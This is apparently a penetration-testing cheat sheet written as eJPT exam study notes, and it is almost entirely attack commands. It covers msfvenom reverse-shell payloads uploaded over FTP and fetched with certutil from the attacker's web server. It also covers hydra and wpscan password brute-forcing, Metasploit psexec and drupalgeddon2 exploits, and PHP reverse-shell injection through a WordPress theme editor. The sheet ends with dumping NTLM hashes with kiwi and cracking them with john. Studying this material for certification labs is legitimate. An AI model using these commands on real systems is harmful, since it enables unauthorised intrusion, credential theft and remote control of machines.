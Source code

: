 
### Network Recon

nmap -sn <range> -> ping scan

*Store ips in a text file*

nmap -p- -T5 -iL <file> -vv > <file> -> paranoid scan, all ports, very verbose from a text file

nmap -p- -T5 host -vv -Pn -> dont use ping scan


### FTP

*try ftp anonymous always*

msfvenon -p windows/shell_reverse_tcp LHOST=ip LPORT=4444 -f asp > shell.asp -> reverse shell for windows

put shell.asp -> upload reverse shell via ftp to target **CAN WORK OR DONT**

### SMB

smbclient -L "\\\\<ip>\\" -> see SMB shares 

smbclient -L "\\\\<ip>\\<share>" -> connect to smb share

#### Crack SMB

- Store user names in a text file if the user share is accessible
- Use hydra to get a password using a single name or a text file with the users obtained

hydra -l <user_name> -P /usr/share/wordlists/fastrack.txt smb://<ip> -> brute force smb login (fastrack is a very good wordlist for ejpt!)

- Login as User
smbclient -L "\\\\<ip>\\<share>" -U <user_name>


#### Using PSExec (metasploit way)

- Open msfconsole
- Set exploit as psexec
use exploit/windows/smb/psexec
-set rhost to kali machine
-set smbuser <user>
-set smbpass <password>
(Can be tried using bruteforce wordlists)

*IMPORTANT you can have samba on windows and linux* if the windows exploit failts try to seach for linux ones *target:Linux*

For example:
-linux/samba/is_known_pipename


### Jenkins (port 8000)

*Always try jenkins default creds in the dashboard (admin:admin, jenkins:jenkins, adminstrator:password etc)*

Create a reverse shell (https://github.com/Brzozova/reverse-shell-via-Jenkins)

**Kali machine will have no internet connection! Code needs to be copy pasted from machine to exam machine!**

- Change localhost for to kali's ip
nc -lvnp <port> -> 8044 or other defined in the payload
- run the script console

### Exploit PHP (XAMP webserver port 8080)

Start by running a content scanner like dirb


dirb http://<ip>:<port> /user/share/wordlists/dirb/big.txt -> good wordlist for this

#### Wordpress

Most probably a wordpress will be running on the server, first try to identify useful things like a login page and try default creds.


wpscan --url http//<wp_url>:<port> -e u -> enumerate users

wpscan --url http//<wp_url>:<port> -e ap -t 200 -> enumerate plugins


wpscan --url http//<wp_url>:<port>/<login_page> -U <user> -P /usr/share/wordlists/fasttrack.txt -t 200 -> brute force user login

*Another imporant piece in wordpress is identifying the theme that is running on the website as it can be used as way to get our foot into the system, for example oceanwp is known to be vulnerable to RCE from the dasboard by injecting malicious code in the css theme*

#### Getting reverse shell

Get a php reverse shell (based on the os identified previously with nmap)

For example windows - https://github.com/Dhayalanb/windows-php-reverse-shell

- Start a netcat session: nc -lnvp 9000
- In the case of oceanwp go to the theme editor and inject the shell code.
- Edit the code with the listening port and the kali ip (additionaly store the code in a php file and upload it if copy paste does not work)
- Go to the injected file via url -> http://<url>/wp-content/themes/<theme>/<file>

#### Access the Database

- Use the shell and go to the wp-config.php file and get the database configuration to access it from kali.
- From kali access mysql:
mysql -u root -H <ip> -p -> Access unprotected db, can work or dont, its a gamble.

#### Upload a reverse shell to the system

msfvenom -p windows/shell_reverse_tcp LHOST=<kali_ip> LPORT=443 -f exe > shell.exe

- Create a temp directory on the machine - mkdir temp

python3 -m http.server 80 -> start a webserver on kali to upload the payload

certutil.exe -urlcache -f http://<kali_ip>/shell.exe shell.exe -> upload shell to machine

In kali go back to metasploit multi handler

- msfconsole
- use multi/handler
- set payload windows/shell_reverse_tcp
- set lhost <kali_ip>
- set lport 443
- exploit

Transfer shell to meterpreter

- search shell_to
- use 0 
- sessions -i
- set sessions 1
- run
- sessions -i
- sessions 2
- load kiwi

#### Crack user accounts (local)

lsa_dump_sam -> dump ntlm hashes
*store them in a text file* (<user>:<hash>)

john <file> --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 --format=NT -> crack the hashes (you can also use other wordlists such as fasttrack.txt)


### Web Exploits (80, 8000)

curl -v <host> -> recon web page html

#### CMS (example bolt)

Content manage system is the type of web service that is always in ejpt.

Start by exploring the webpage and try to get the CMS framework used.


Search in metasploit for an exploit (bolt example)

-msfconsole
-search bolt
-use exploit/multi/http/bolt_authenticated_rce
-show options


#### Durpal

Run dirb to get directories

- dirb htt://<target> /usr/share/wordlists/dirb/big.txt

*check the version of durpal in the source code*

Use metasploit 

- use drupal_drupalgeddon2
- exploit

### MYSQL

Try to connect to it via root and passwordless

- mysql -u root -h <target> -p




